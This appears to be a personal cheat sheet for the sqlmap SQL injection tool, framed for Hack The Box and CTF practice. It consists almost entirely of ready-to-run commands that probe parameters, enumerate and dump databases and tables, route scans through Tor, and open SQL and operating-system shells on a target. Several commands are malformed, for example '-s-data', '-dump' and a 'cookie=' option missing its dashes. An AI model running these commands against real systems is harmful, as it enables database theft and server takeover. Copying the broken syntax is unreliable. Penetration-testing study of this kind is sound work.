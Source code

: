 ```yaml
---
layout: memory
title: sqlmap Cheatsheet
---
```


Quick writeup and cheat sheet for [sqlmap](https://github.com/sqlmapproject/sqlmap) the automated SQLi and database takeover tool to speed up HTB/CTFs

### Simple usage
```bash
sqlmap -u "$URL"
```

### Specify target DBMS to MySQL
```bash
sqlmap -u "$URL" --dbms=mysql
```

### Using a proxy
```bash
sqlmap -u "$URL" --proxy=http://proxy_address:port
```

### Specify param1 to exploit
```bash
sqlmap -u "$URLparam1=value1&param2=value2" -p param1
```

### Use POST requests
```bash
sqlmap -u "http://target_server" --data=param1=value1&param2=value2
```

### Access with authenticated session
```bash
sqlmap -u "http://target_server" --data=param1=value1&param2=value2 -p param1 cookie='my_cookie_value'
```

### Basic authentication
```bash
sqlmap -u "http://target_server" -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password
```

### Specify parameter to exploit
```bash
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2
```

### Specify parameter to exploit in 'nice' URIs
```bash
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs # exploits param1
```

### Evaluating response strings
```bash
sqlmap -u "$URL" --string="This string if query is TRUE"
sqlmap -u "$URL" --not-string="This string if query is FALSE"
```

### List databases
```bash
sqlmap -u "$URL" --dbs
```

### List databases
```bash
sqlmap -u "$URL" --dbs
```

### List tables of database target_DB
```bash
sqlmap -u "$URL" -D target_DB --tables
```

### Dump table target_Table of database target_DB
```bash
sqlmap -u "$URL" -D target_DB -T target_Table -dump
```

### List columns of table target_Table of database target_DB
```bash
sqlmap -u "$URL" -D target_DB -T target_Table --columns
```

### Scan through TOR
```bash
sqlmap -u "$URL" --tor --tor-type=SOCKS5
```

### Get SQL Shell
```bash
sqlmap -u "$URL" --sql-shell
```

### Get OS Shell
```bash
sqlmap -u "$URL" --os-shell
```